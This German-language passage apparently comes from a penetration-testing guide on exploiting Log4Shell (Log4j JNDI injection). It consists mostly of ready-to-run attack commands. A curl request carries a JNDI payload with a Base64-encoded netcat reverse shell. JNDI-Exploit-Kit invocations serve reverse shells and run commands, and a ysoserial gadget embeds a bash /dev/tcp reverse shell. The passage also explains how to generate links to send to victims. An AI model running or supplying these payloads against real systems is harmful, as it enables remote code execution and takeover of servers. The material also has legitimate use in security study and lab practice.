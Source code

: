 ```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/bmMgMTcyLjE3LjAuMSA0NDQ0IC1lIC9iaW4vc2gK}'
```
Wenn Sie die Angriffe senden, sehen Sie einige Ausgaben im Terminal, in dem Sie **JNDIExploit-1.2-SNAPSHOT.jar** ausgeführt haben.

**Denken Sie daran, `java -jar JNDIExploit-1.2-SNAPSHOT.jar -u` für andere Ausbeutungsoptionen zu überprüfen. Außerdem können Sie, falls erforderlich, den Port der LDAP- und HTTP-Server ändern.**

### RCE - JNDI-Exploit-Kit <a href="#rce__jndiexploitkit_33" id="rce__jndiexploitkit_33"></a>

Ähnlich wie beim vorherigen Exploit können Sie versuchen, [**JNDI-Exploit-Kit**](https://github.com/pimps/JNDI-Exploit-Kit) zu verwenden, um diese Schwachstelle auszunutzen.\
Sie können die URLs generieren, die Sie an das Opfer senden möchten, indem Sie Folgendes ausführen:
```bash
# Get reverse shell in port 4444 (only unix)
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 172.17.0.1:1389 -J 172.17.0.1:8888 -S 172.17.0.1:4444

# Execute command
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 172.17.0.1:1389 -J 172.17.0.1:8888 -C "touch /tmp/log4shell"
```
_Dieser Angriff unter Verwendung eines benutzerdefinierten generierten Java-Objekts wird in Laboren wie dem **THM solar room** funktionieren. Allerdings wird dies im Allgemeinen nicht funktionieren (da Java standardmäßig nicht konfiguriert ist, um Remote-Codebasen über LDAP zu laden). Ich denke, das liegt daran, dass es keine vertrauenswürdige Klasse ausnutzt, um beliebigen Code auszuführen._

### RCE - JNDI-Injection-Exploit-Plus

[https://github.com/cckuailong/JNDI-Injection-Exploit-Plus](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus) ist ein weiteres Tool zur Generierung von **funktionierenden JNDI-Links** und zur Bereitstellung von Hintergrunddiensten durch Starten eines RMI-Servers, LDAP-Servers und HTTP-Servers.\

### RCE - ysoserial & JNDI-Exploit-Kit

Diese Option ist wirklich nützlich, um **Java-Versionen anzugreifen, die nur bestimmte Klassen vertrauen und nicht allen**. Daher wird **ysoserial** verwendet, um **Serialisierungen von vertrauenswürdigen Klassen** zu generieren, die als Gadgets verwendet werden können, um **beliebigen Code auszuführen** (_die von ysoserial ausgenutzte vertrauenswürdige Klasse muss vom Opfer-Java-Programm verwendet werden, damit der Exploit funktioniert_).

Mit **ysoserial** oder [**ysoserial-modified**](https://github.com/pimps/ysoserial-modified) können Sie den Deserialisierungs-Exploit erstellen, der von JNDI heruntergeladen wird:
```bash
# Rev shell via CommonsCollections5
java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.10/7878 0>&1' > /tmp/cc5.ser
```
Verwenden Sie [**JNDI-Exploit-Kit**](https://github.com/pimps/JNDI-Exploit-Kit), um **JNDI-Links** zu generieren, bei denen der Exploit auf Verbindungen von den anfälligen Maschinen wartet. Sie können **verschiedene Exploits, die automatisch generiert werden können**, vom JNDI-Exploit-Kit bereitstellen oder sogar Ihre **eigenen Deserialisierungs-Payloads** (von Ihnen oder ysoserial generiert).
```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.10:1389 -P /tmp/cc5.ser
```
![](<../../.gitbook/assets/image (1118).png>)
